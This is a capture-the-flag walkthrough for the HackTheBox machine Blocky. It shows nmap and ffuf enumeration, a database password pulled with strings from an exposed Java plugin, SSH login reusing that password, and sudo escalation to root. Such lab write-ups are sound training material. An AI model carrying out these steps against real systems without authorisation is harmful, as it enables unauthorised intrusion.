

---
tags:
  - hack
  - linux
---

# HackTheBox: [Blocky](https://app.hackthebox.com/machines/Blocky)

## Enumeration

```console
$ nmap -n -sCV -A -T4 -p1-65535 -v $t
[...]
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

The target is running a Wordpress site:


Web content discovery via `ffuf`:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://blocky.htb/FUZZ
[...]
[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 146ms]
| URL | http://blocky.htb/
    * FUZZ: 

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 100ms]
| URL | http://blocky.htb/wiki
| --> | http://blocky.htb/wiki/
    * FUZZ: wiki

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 107ms]
| URL | http://blocky.htb/wp-content
| --> | http://blocky.htb/wp-content/
    * FUZZ: wp-content

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 98ms]
| URL | http://blocky.htb/plugins
| --> | http://blocky.htb/plugins/
    * FUZZ: plugins

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 102ms]
| URL | http://blocky.htb/wp-includes
| --> | http://blocky.htb/wp-includes/
    * FUZZ: wp-includes

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 104ms]
| URL | http://blocky.htb/javascript
| --> | http://blocky.htb/javascript/
    * FUZZ: javascript

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 103ms]
| URL | http://blocky.htb/wp-admin
| --> | http://blocky.htb/wp-admin/
    * FUZZ: wp-admin

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
| URL | http://blocky.htb/phpmyadmin
| --> | http://blocky.htb/phpmyadmin/
    * FUZZ: phpmyadmin

[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 145ms]
| URL | http://blocky.htb/
    * FUZZ: 

:: Progress: [87651/87651] :: Job [1/1] :: 141 req/sec :: Duration: [0:04:38] :: Errors: 0 ::
```

The `/plugins` directory is serving two files:


I download them to my machine and run `strings` on the Java class:

```console
$ strings BlockyCore.class 
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
[...]
```

`root`, `localhost`, and `8YsqfCTnvxAUeduzjNSXe22` are interesting.

I find a username `notch` via a Wordpress post:



## Exploitation

Trying the username and password credentials for `ssh` yields success:

```console
$ ssh notch@$t
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
[...]
notch@Blocky:~$ cat user.txt
fb7682[...]
```

## Privilege Escalation

The user has `root` privileges via `sudo`:

```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su -
root@Blocky:~# cat /root/root.txt
d90ffb[...]
```
